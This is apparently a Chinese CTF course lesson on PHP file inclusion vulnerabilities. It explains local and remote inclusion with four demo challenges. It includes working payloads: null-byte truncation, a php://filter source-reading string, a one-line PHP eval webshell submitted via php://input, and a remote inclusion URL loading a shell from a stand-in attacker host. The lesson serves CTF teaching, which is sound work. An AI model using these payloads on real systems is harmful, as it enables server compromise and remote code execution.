




# CTF入门课程：P55：文件包含漏洞基础

在本节课中，我们将学习CTF比赛中一类重要的Web安全考点——文件包含漏洞。我们将从漏洞原理入手，分析其定义与成因，并详细介绍在CTF比赛中常见的本地与远程文件包含的解题思路，最后通过例题进行实战讲解。

## 漏洞原理与定义 🔍

上一节我们介绍了课程概述，本节中我们来看看文件包含漏洞的具体定义。

严格来说，文件包含漏洞是代码注入的一种。程序开发人员在编写代码时，不喜欢重复编写相同的功能，通常会将需要重复使用的代码写入单个文件。当需要使用时，直接调用该文件，这个过程被称为“包含”。

在PHP中，通过特定函数引入文件。如果传入的文件名参数未经合理校验，就可能操作预期之外的文件，导致文件泄露或恶意代码注入。在CTF比赛中，可以利用此漏洞读取服务器本地的flag文件，甚至获取服务器权限。

## 核心函数与判断方法 ⚙️

了解定义后，我们需要知道如何判断一道题目是否考察文件包含漏洞。关键在于识别PHP中可能导致漏洞的函数。

在PHP中，最常见的文件包含函数有以下4个：
*   `include`
*   `include_once`
*   `require`
*   `require_once`

这四个函数都可以包含并运行指定的文件。`include`与`require`的主要区别在于错误处理方式。`include_once`和`require_once`则确保文件只被包含一次。

当使用这些函数包含新文件时，只要文件内容符合PHP语法规范，任何扩展名的文件都会被当作PHP代码解析。这意味着，即使上传一个包含恶意代码的`.txt`或`.jpg`文件，它也会被当作PHP代码执行。

## 解题思路分类 🗂️

接下来，我们进入核心部分，看看CTF中文件包含类题目的常见解题思路。文件包含主要分为两类：本地文件包含和远程文件包含。

当被包含的文件位于服务器本地时，称为**本地文件包含**。通常通过操纵变量读取目标服务器上的flag文件。
当被包含的文件位于第三方服务器上时，称为**远程文件包含**。这类题目常出现在CTF的AWD混战模式中，可通过指定远程URL上的PHP木马文件来执行，从而获取权限。

区分两者的关键在于PHP的全局配置文件`php.ini`中的两个配置项：
*   `allow_url_fopen`
*   `allow_url_include`

只有当这两个配置项**同时开启**时，才可能存在远程文件包含漏洞。

## 本地文件包含解题思路 🎯

讲完区别，我们先详细讲解几个本地文件包含的常见解题思路。

### 思路一：直接包含目标文件

第一种思路是直接包含内含flag的文件。我们来看一道示例。

**例题分析 (Demo1)**
题目提示通过访问URL可以查看到`index.php`页面的源码。代码逻辑如下：
1.  通过GET请求提交`file`参数。
2.  判断`web`目录下是否存在该文件名。
3.  如果存在，则用`include`包含该文件；如果不存在，则包含`home.php`。

这段代码未对`file`参数进行任何过滤。如果目标主机的flag文件在`www`目录下，我们可以通过`file`参数直接指定该文件。在代码中，相当于执行了 `include(‘flag.php%00’)`。这里的`%00`是字符串结束符，用于截断后面的`.php`后缀，从而成功包含`flag.php`文件。

### 思路二：利用PHP伪协议读取源码

第二种题型需要我们利用PHP伪协议来读取页面源码中的flag。这需要了解PHP支持的伪协议及其与全局配置项的关系。

PHP伪协议是PHP支持并封装的一些协议。在CTF中，`file://`和`php://filter`协议经常被使用。

以下是两个协议的关键点：
*   **`file://` 协议**：用于访问本地文件系统。在CTF中可用来读取本地敏感文件或flag文件。**该协议的使用不受`allow_url_fopen`和`allow_url_include`配置的限制**。例如，读取Windows上的flag文件：`file:///C:/flag.txt`
*   **`php://filter` 协议**：可以使用其`filter`参数读取网页的源代码。**该协议同样可以在`allow_url_fopen`和`allow_url_include`均为`Off`（双Off）的情况下使用**。

**例题分析 (Demo2)**
访问题目URL，看到一个“click me”链接。点击后，URL中多了一个`file`参数，提示可能存在文件包含漏洞。
在无法查看`php.ini`的情况下，可尝试用`php://filter`读取`index.php`的源码。构造Payload如下：
`php://filter/read=convert.base64-encode/resource=index.php`
其中，`resource`指定要读取的数据流（文件），`read`设定过滤器（此处为base64编码）。读取到的内容经过base64编码，解码后即可看到源码中的flag值。编码的目的是防止源码被直接当作PHP代码执行而无法查看。

### 思路三：利用php://input执行代码

第三种思路是通过`php://input`写入PHP木马，获取Webshell权限来查看flag。`php://input`是一个比较特殊的参数。

只要`allow_url_include`配置为`On`，无论`allow_url_fopen`是否开启，都可以将POST请求中的数据作为PHP代码执行。

**例题分析 (Demo3)**
访问题目URL，直接给出了源码。这是一道代码审计题。
代码使用`require_once`包含了GET请求的`filter`参数。注释提示：1. 要读取`php.ini`；2. 不允许进行远程文件包含。
解题思路明确：
1.  按照提示读取`php.ini`获取配置信息。
2.  根据配置信息选择方法：要么绕过限制进行远程文件包含，要么使用PHP伪协议直接执行代码。
读取`php.ini`后发现，`allow_url_fopen=Off`，而`allow_url_include=On`。因此，可以使用`php://input`协议尝试写入木马。
通过火狐Hackbar等工具，以POST方式提交一段简单的PHP木马代码（如：`<?php @eval($_POST[‘cmd’]);?>`）。成功写入后，使用中国菜刀等连接工具连接生成的木马文件，即可查看目标主机上的flag文件。

## 远程文件包含解题思路 🌐

最后，我们来说一下远程文件包含。这类漏洞通常出现在CTF的AWD混战模式中，用于获取其他队伍的Shell。

**例题分析 (Demo4)**
题目源码明显存在文件包含漏洞，使用`require_once`包含GET请求的参数`page`。
访问`php.ini`文件，发现`allow_url_fopen`和`allow_url_include`均为`On`，因此存在远程文件包含漏洞。
利用方法很简单：通过`page`参数传入一个托管在第三方服务器上的木马文件URL。例如：`http://target.com/?page=http://attacker.com/shell.php?`。问号`?`后面的内容被解释为URL的查询字符串，这也是一种截断技巧，与`%00`的用途类似。

## 课程总结 📝

本节课我们一起学习了文件包含漏洞的基础知识。我们从漏洞的定义和原理讲起，明确了其属于代码注入的一种。然后，我们介绍了PHP中四个关键的文件包含函数，并学习了如何判断题目考点。

课程的核心部分详细讲解了CTF中文件包含题目的解题思路，主要分为本地文件包含和远程文件包含两大类。我们深入探讨了三种本地文件包含的常见方法：直接包含文件、利用`file://`和`php://filter`伪协议读取源码、以及利用`php://input`执行代码获取Webshell。最后，我们简要介绍了远程文件包含的利用场景与方法。

理解这些原理和思路，是解决CTF中文件包含类题目的关键。